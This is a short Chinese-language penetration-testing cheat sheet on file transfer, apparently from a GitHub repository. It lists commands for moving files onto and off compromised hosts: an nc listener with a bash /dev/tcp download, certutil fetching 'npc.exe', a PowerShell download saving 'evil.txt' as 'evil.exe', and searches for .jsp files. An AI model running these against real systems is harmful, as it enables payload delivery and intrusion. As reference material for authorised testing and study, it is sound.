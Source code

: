 ------------

## 文件传输

**Python搭建简单的HTTP服务**

```bash
python -m http.server 80

python2 -m SimpleHTTPServer 80
```

**SCP**

上传

```bash
scp 123.txt root@10.10.10.10:~/123.txt
```

下载

```bash
scp root@210.210.210.10:/home/root/1.txt ./1.txt
```

**Bash Download**

```bash
#服务器监听
nc -lp 1337 < 666.txt

#客户端下载
bash -c 'cat < /dev/tcp/10.10.10.10/1337 > 666.txt'
```

**certutil 下载**

```bash
certutil -urlcache -split -f http://10.10.10.10:80/npc.exe
```

**PowerShell 下载**

```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')
```

**Windows查找文件**

```bash
dir /s *.jsp
```

```bash
for /r D:\developer %i in (*.jspx) do @echo %i
```

-----
